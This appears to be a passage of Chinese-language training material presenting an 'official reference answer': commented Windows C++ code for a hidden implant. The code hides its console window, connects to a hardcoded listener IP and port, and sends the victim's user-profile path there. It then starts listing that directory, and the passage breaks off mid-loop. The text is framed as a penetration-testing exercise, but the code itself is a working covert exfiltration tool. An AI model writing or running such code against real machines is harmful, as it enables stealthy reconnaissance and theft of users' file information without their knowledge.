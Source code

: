 

###  官方给出的参考答案

官方给出的参考答案（缺点：只能读取用户目录；没有进行错误检查；每读取一个文件或目录的名字就要调用一次send；传输的数据格式不直观）：

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS /* we use winsock utilities and we do not want the compiler to complain about functionalities used, since the below code is sufficient for our needs */
#define _CRT_SECURE_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib") /* we need the Ws2_32.lib library in order to use sockets (networking) */

/* now comes headers which provide various utilities for our program: */

#include <iostream> // standard input/output utilities
#include <WinSock2.h> // networking utilities
#include <stdio.h> //standard input/output utilities
#include <stdlib.h> //standard input/output utilities
#include <dirent.h> //directory utilities
#include <string> //string utilities

/* 负责收集文件系统上当前用户目录的路径 */
char* userDirectory() /* 函数名前的 char* 意味着它将返回一个指向字符串的指针 */
{
	char* pPath; // 我们定义了一个 **pointer to char** 类型的变量并将其命名为 pPath；
	pPath = getenv("USERPROFILE"); /* 我们使用先前包含的头文件附带的函数 getenv 来了解用户的目录位置 - 在这种情况下，它保存在名为“userprofile”的 Windows 系统的环境变量中*/
	if (pPath != NULL ) // 检查检索到的路径是否不为空
	{
		return pPath; // 返回目录路径并退出函数
	}
	else
	{
		/* 如果路径为空，则意味着无法检索路径 */
		perror(""); // print the error and exit
	}

}

int main() //declaration of the main function
{
	ShowWindow(GetConsoleWindow(), SW_HIDE); // 不显示（隐藏）这个程序窗口
	WSADATA wsaData; /* 结构声明（结构是一种特定类型的变量）保存有关 Windows 套接字实现的信息 */
	SOCKET server; // 用于存储 SOCKET 类型的连接的变量
	SOCKADDR_IN addr; /* 保持连接细节的变量 - SOCKADDR_IN 类型（也是一个结构） */

	WSAStartup(MAKEWORD(2, 0), &wsaData); /* 初始化 winsock 库的使用（需要打开网络连接） */
	server = socket(AF_INET, SOCK_STREAM, 0); //设置 TCP 套接字
	addr.sin_addr.s_addr = inet_addr("192.168.248.129"); /* 指定网络连接的目标 - 将 ip 替换为您的侦听 ip 地址 */
	addr.sin_family = AF_INET; /*将地址族 (AF) 设置为 AF_INET - 此地址族包含用于通过 TCP 进行通信的 IPv4 地址*/
	addr.sin_port = htons(27015); //远程端口 - 将其更改为您的侦听端口
	connect(server, (SOCKADDR*)&addr, sizeof(addr)); /* 连接到先前设置的目标主机/端口 */
	/* 现在套接字及其传出网络 TCP 连接已建立；现在可以通过 TCP 发送数据。在这种情况下，服务器变量保存连接详细信息，因此将使用服务器变量进一步向该目标发送任何数据。 */

	char* pPath = userDirectory(); /* 声明了新的局部变量 pPath 并将用户目录分配给它（使用之前编写的函数 userDirectory()） */
	send(server, pPath, sizeof(pPath), 0); /* 路径在之前设置的ip地址和端口上发送到渗透测试器 */

	DIR* dir; // 名为 dir 的新变量：指向 DIR 类型的指针
	struct dirent* ent; // 名为 ent 的新变量：指向结构的指针
	if (( dir = opendir(pPath) ) != NULL) /* 如果在检索路径打开目录会带来任何结果 */
	{
		while (( ent = readdir(dir) ) != NULL) /* 迭代目录中的项目，只要有下一个项目： */
		{
```